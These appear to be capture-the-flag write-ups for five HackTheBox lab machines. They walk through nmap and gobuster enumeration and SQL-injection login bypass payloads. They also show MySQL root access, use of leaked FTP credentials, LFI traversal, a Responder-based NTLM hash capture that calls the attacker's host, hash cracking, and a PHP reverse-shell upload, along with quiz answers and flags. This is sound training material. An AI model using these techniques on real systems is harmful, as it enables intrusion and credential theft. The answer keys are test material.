## Appointment
### nmap
```sh {linenos=true}
# Nmap 7.92 scan initiated Tue Oct 25 20:48:19 2022 as: nmap -sC -sV -oA nmap/appointment 10.129.17.225
Nmap scan report for 10.129.17.225
Host is up (0.11s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Login
|_http-server-header: Apache/2.4.38 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 25 20:48:30 2022 -- 1 IP address (1 host up) scanned in 11.56 seconds
```

### http
Since `port 80` is open, let's check the browser to see what the IP address gives us.



Let's try a few combinations of usernames and passwords first such as `admin`, `root`, `password`, etc.

Perhaps this isn't the point of entry, let's try to find any useful subdirectories using `Gobuster`

### gobuster
`gobuster` (`sudo apt install gobuster`) is a tool that bruteforces urls in order to find subdomains, subdirectories, and files. Let's run a simple scan on this IP and store the output in `gobuster.out` for later reference.

```sh
gobuster dir -u http://10.129.17.225 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -o gobuster.out -z
```

*(note: `sudo apt install seclists` if you do not already have this directory)*

*command tags:*
- `dir`: directories/files search mode
- `-u`: url
- `-w`: specify a wordlist
- `-o`: specify output file
- `-z`: only display hits (not other progress)

This will give us the following output:


After looking at these subdirectories, nothing glaringly stood out. Perhaps we can pivot back to the login page and try `SQL Injection`.

### SQL
`SQL` (Structured Query Language) is a programming language used in order to store, manipulate, or retrieve data in databases. `SQL Injection` (sqli) is a technique used to inject SQL commands via the front end to leak information from the database. 

It's worth trying a few basic sqli before breaking out the big guns like `sqlmap`. Let's try a few from this [Github](https://github.com/payloadbox/sql-injection-payload-list) I found Googling "sqli payloads". Let's go to the section of sqli payloads for bypassing authentication (Auth Bypass Payloads) -- they usually have a format similar to `' OR 1=1` or `admin' --`. Just throw them into the `username` and `password` fields and hope one works.
- `'-'`: SUCCESS
- `' or ''-'`: failed
- `' or "`: failed
- `-- or #`: failed
- `' OR '1`: SUCCESS

As you can see, it takes a bit of trial and error, hence how automation (through something like `sqlmap`) can prove useful!



### Questions
- What does the acronym SQL stand for? 
`Structured Query Language`
- What is one of the most common type of SQL vulnerabilities? 
`SQL Injection`
- What does PII stand for? 
`Personally Identifiable Information`
- What does the OWASP Top 10 list name the classification for this vulnerability?
`A03:2021-Injection`
- What service and version are running on port 80 of the target? 
`Apache httpd 2.4.38 ((Debian))`
- What is the standard port used for the HTTPS protocol? 
`443`
- What is one luck-based method of exploiting login pages? 
`brute-forcing`
- What is a folder called in web-application terminology? 
`directory`
- What response code is given for "Not Found" errors? 
`404`
- What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains? 
`dir`
- What symbol do we use to comment out parts of the code? 
`#`

**flag:** `e3d0796d002a446c0e622226f42e9672`

---

## Sequel

### nmap
```sh {linenos=true}
# Nmap 7.92 scan initiated Tue Oct 25 22:42:52 2022 as: nmap -sC -sV -oA nmap/sequel 10.129.152.89
Nmap scan report for 10.129.152.89
Host is up (0.077s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
|_sslv2: ERROR: Script execution failed (use -d to debug)
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 66
|   Capabilities flags: 63486
|   Some Capabilities: LongColumnFlag, Support41Auth, Speaks41ProtocolOld, InteractiveClient, IgnoreSpaceBeforeParenthesis, SupportsCompression, SupportsTransactions, ConnectWithDatabase, IgnoreSigpipes, ODBCClient, FoundRows, Speaks41ProtocolNew, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: <REDACTED FOR FORMATTING>
|_  Auth Plugin Name: mysql_native_password
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 25 22:46:15 2022 -- 1 IP address (1 host up) scanned in 203.10 seconds
```

### mysql
Since `port 3306` is open, lets take a look into connecting to `mysql` (`sudo apt update && sudo apt install mysql*`) – an open-source relational database management system.

We can run the following command and try for root right away:

```sh
mysql -h 10.129.152.89 -u root
```

*command tags:*
- `-h`: host IP
- `-u`: specified user

Bingo!



Now we can just run a few sql commands and profit:

```ps
> show databases
...
> use htb;
...
> show tables;
...
> select * from config;
```



### Questions 
- What does the acronym SQL stand for? 
`Structured Query Language`
- During our scan, which port running mysql do we find? 
`3306`
- What community-developed MySQL version is the target running? 
`MariaDB`
- What switch do we need to use in order to specify a login username for the MySQL service? 
`-u`
- Which username allows us to log into MariaDB without providing a password? 
`root`
- What symbol can we use to specify within the query that we want to display everything inside a table? 
`*`
- What symbol do we need to end each query with? 
`;`

**flag:** `7b4bec00d1a39e3dd4e021ec3d915da8`

---

## Crocodile

### nmap 
```sh {linenos=true}
# Nmap 7.92 scan initiated Tue Oct 25 23:11:51 2022 as: nmap -sC -sV -oA nmap/crocodile 10.129.228.114
Nmap scan report for 10.129.228.114
Host is up (0.080s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.82
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 25 23:12:04 2022 -- 1 IP address (1 host up) scanned in 12.82 seconds
```

### ftp
`ftp` is open with `anonymous` mode allowed, so let's scope it out.



*file: allowed.userlist:*
```txt {linenos=true}
aron
pwnmeow
egotisticalsw
admin
```

*file: allowed.userlist.password:*
```txt {linenos=true}
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

### http
Well we have users and passwords, let's check the website to see if something will take these credentials (like a login page).


After clicking around, nothing seemed promising. Let's throw it in `gobuster` to see if we can't find a login page.

### gobuster
We've done this before! (see above)

```sh
$ gobuster dir -u http://10.129.228.114 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -z

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.228.114
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/10/25 23:30:31 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 317] [--> http://10.129.228.114/assets/]
/css                  (Status: 301) [Size: 314] [--> http://10.129.228.114/css/]   
/js                   (Status: 301) [Size: 313] [--> http://10.129.228.114/js/]    
/dashboard            (Status: 301) [Size: 320] [--> http://10.129.228.114/dashboard/]
                                                                                      
===============================================================
2022/10/25 23:31:11 Finished
===============================================================
```

`dashboard` seems interesting... we get redirected to `login.php`!



Going for the throat with `admin:rKXM59ESxesUFHAd` grants us access and the flag.



### Questions
- What nmap scanning switch employs the use of default scripts during a scan? 
`-sC`
- What service version is found to be running on port 21? 
`vsftpd 3.0.3`
- What FTP code is returned to us for the "Anonymous FTP login allowed" message? 
`230`
- What command can we use to download the files we find on the FTP server? 
`get`
- What is one of the higher-privilege sounding usernames in the list we retrieved? 
`admin`
- What version of Apache HTTP Server is running on the target host? 
`2.4.41`
- What is the name of a handy web site analysis plug-in we can install in our browser? 
`Wappalyzer`
- What switch can we use with gobuster to specify we are looking for specific filetypes? 
`-x`
- What file have we found that can provide us a foothold on the target? 
`login.php`

**flag:** `c7110277ac44d78b6a9fff2232434d16`

---

## Responder

### nmap
For this scan, I added the tags `-p-` to scan all ports since the top 1000 had no hits and `-T5`for the `insane` level to increase speed.
```sh {linenos=true}
# Nmap 7.92 scan initiated Tue Oct 25 23:51:23 2022 as: nmap -p- -sC -sV -T5 -oA nmap/responder 10.129.245.210
Nmap scan report for 10.129.245.210
Host is up (0.21s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct 26 00:03:07 2022 -- 1 IP address (1 host up) scanned in 703.75 seconds
```

### http
`Port 80` is open so let's scope out the site!



Looks like the IP is getting redirected to `unika.htb`. Let's add this to `/etc/hosts` to map the hostname to the IP address to help `DNS`.

*file: /etc/hosts*
```txt {linenos=true}
127.0.0.1       localhost
127.0.1.1       kali
10.129.245.210  unika.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
That's better.


After clicking around, something stood out after changing the language to French – the url changed to `http://unika.htb/index.php?page=french.html`. `page` is calling a file on the server, but can't we just change this file to be something else? Say, `/etc/hosts`:

`http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts`

Gives us the output:

```txt
# Copyright (c) 1993-2009 Microsoft Corp. # # This is a sample HOSTS file used by Microsoft 
TCP/IP for Windows. # # This file contains the mappings of IP addresses to host names. Each # 
entry should be kept on an individual line. The IP address should # be placed in the first
column followed by the corresponding host name. # The IP address and the host name should be 
separated by at least one # space. # # Additionally, comments (such as these) may be inserted 
on individual # lines or following the machine name denoted by a '#' symbol. # # For example:
# # 102.54.94.97 rhino.acme.com # source server # 38.25.63.10 x.acme.com # x client host #
localhost name resolution is handled within DNS itself. # 127.0.0.1 localhost # ::1 localhost 
```

Now that we know we can access files on the server, an `LFI` (Local File Include) vulnerability, perhaps we there is an `RFI` (Remote File Include) vulnerability. From our `nmap`, we know that the server hosting this page is a `Windows` machine. So, in order for us to test this RFI vulnerability, we will first need to learn a bit about `NTLM`.

### NTLM
`NTLM` (New Technology Lan Manager) is essentially a network security manager in Windows that provides authentication, integrity, and confidentiality. Notably, it is a `single sign-on` (SSO) which allows requires users to only be authenticated once. More details of `NTLM` and the authentication process can be found on [Crowdstrike](https://www.crowdstrike.com/cybersecurity-101/ntlm-windows-new-technology-lan-manager/). Basically, there are tools – such as `Responder` – which allow us to listen in on the NTLM authentication and capture the `NetNTLMv2` hash. If we are able to crack this hash, we can then gain access to the server. Let's give it a go.

### Responder
`Responder` (`git clone https://github.com/lgandx/Responder`), is a tool that can simulate many attacks. In this case, we will use it as a malicious SMB server to capture the `NetNTLMv2` hash. This can be done by:

```sh
sudo python3 Responder.py -I tun0
```

Now we will have the server interact with this SMB server (hosted on your client IP – mine being `10.10.14.165`) by changing the URL in our browser to:

`http://unika.htb/index.php?page=//10.10.14.165/any_file_name`

Hash acquired!



We just need to crack it.

### john the ripper
`john` (john the ripper) is one commonly used hash cracking tools. Let's copy this hash from `Responder` and throw it into a text file such as `hashed.txt`. Let `john` do the rest:

```sh
$ john -w=/usr/share/wordlists/rockyou.txt hashed.txt

Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
badminton        (Administrator)     
1g 0:00:00:00 DONE (2022-10-25 23:58) 100.0g/s 409600p/s 409600c/s 409600C/s slimshady..oooooo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

There we go... `Administrator:badminton`. Time to exploit.

### WinRM
`winrm` (Windows Remote Management) is a protocol that allows devices to access a system remotely. `evil-winrm` is a tool that allows us to connect to a windows machine and still be able to use `Powershell` on `Linux`. 

```sh
evil-winrm -i 10.129.245.210 -u Administrator -p badminton
```

We are in. Now we can run a PowerShell command to look for the flag so we don't have to!

```ps
Get-ChildItem -Path C:\ -Filter flag.txt -Recurse
```

Box popped. 



### Questions
- When visiting the web service using the IP address, what is the domain that we are being redirected to? 
`unika.htb`
- Which scripting language is being used on the server to generate webpages? 
`php`
- What is the name of the URL parameter which is used to load different language versions of the webpage? 
`page`
- Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe" 
`../../../../../../../../windows/system32/drivers/etc/hosts`
- Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe" 
`//10.10.14.6/somefile`
- What does NTLM stand for? 
`New Technology Lan Manager`
- Which flag do we use in the Responder utility to specify the network interface? 
`-I`
- There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?. 
`John The Ripper`
- What is the password for the administrator user? 
`badminton`
- We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on? 
`5985`

**flag:** `ea81b7afddd03efaa0945333ed147fac`

---

## Three
### nmap
```sh {linenos=true}
# Nmap 7.92 scan initiated Thu Oct 27 13:35:55 2022 as: nmap -sC -sV -oA nmap/three -T4 10.129.37.145
Nmap scan report for 10.129.37.145
Host is up (0.072s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: The Toppers
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 27 13:36:06 2022 -- 1 IP address (1 host up) scanned in 10.71 seconds
```

### http
After looking around at the website, there were two main things that stood out.
1. `Email: mail@thetoppers.htb` gives us the domain `thetoppers.htb`
2. Dropping a note in the `#content` section gives us `http://10.129.37.145/action_page.php?Name=test1&Email=test2&Message=test3`

We can add `thetoppers.htb` to `/etc/hosts` and check for subdirectories and subdomains.

### gobuster
This section caused problems for me. 

**subdirectories**

First, I looked for subdirectories:

```sh
gobuster dir -u http://10.129.37.145 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

This proved unhelpful with only the `/images` directory found.

**subdomains**

I then tried running `gobuster` to look for subdomains hosted on the same IP using the `vhost` feature.

```sh
gobuster vhost -u http://thetoppers.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -z
```

I tested several of the number outputs by adding them to `/etc/hosts`, but none of them worked. I then updated the `wordlist` to remove all of these inputs that contain numbers through a simple python script. 

```sh
sudo gobuster vhost -u http://thetoppers.htb -w subdomain_wl_no_numbers.txt -z -o gobuster.out
```

This only found the following subdomain (which failed after testing)
```txt
Found: gc._msdcs Status: 400 [Size: 306]
```

### ffuf
Next, I tried switching to `ffuf` as `gobuster` seemed to be failing me. 

```sh
ffuf -c -u http://thetoppers.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.thetopper.htb" -fc 200
```

Still, no luck. 

After much trial and error, I ended up taking a look at the `htb` writeup for this challenge at this point. To my surprise, they simply run gobuster as I did, and find `s3.thetoppers.htb`

Even after knowing the output, I spent much time testing `ffuf` and `gobuster` with no avail. I even tried text files only containing `s3`, but this was always missed by both tools. I even tried resetting the target machine and starting over, but this also failed. So, I'm going to chalk this up to something on `HackTheBox`'s end and continue pretending I found the `s3` subdomain.

Don't forget to add `s3.thetoppers.htb` to `/etc/hosts`

NOW, moving on... 

### s3
The `Amazon S3 bucket` (or `s3` for short) is a cloud-based storage service which contains `s3` objects. We can use the `awscli` (`sudo apt install awscli`) to try to interact with this bucket.

```sh
aws configure
```


Then we can look at all the `s3` buckets:

```sh
aws --endpoint=http://s3.thetoppers.htb s3 ls
```

and all the objects in a bucket:
```sh
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

There seems nothing of particular value in the bucket, but we can try and add a malicious `php` file and get a `reverse shell`. I typically take [pentestmonkey's](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) template and change the `$ip` and `port` accordingly. To upload:

```sh
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

We are in.



Let's search for the flag and be done :grin:



### Questions
- How many TCP ports are open? `2`
- What is the domain of the email address provided in the "Contact" section of the website? `thetoppers.htb`
- In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames? `/etc/hosts`
- Which sub-domain is discovered during further enumeration? `s3.thetoppers.htb`
- Which service is running on the discovered sub-domain? `Amazon s3`
- Which command line utility can be used to interact with the service running on the discovered sub-domain? `awscli`
- Which command is used to set up the AWS CLI installation? `aws configure`
- What is the command used by the above utility to list all of the S3 buckets? `aws s3 ls`
- This server is configured to run files written in what web scripting language? `php`

**flag:** `a980d99281a28d638ac68b9bf9453c2b`

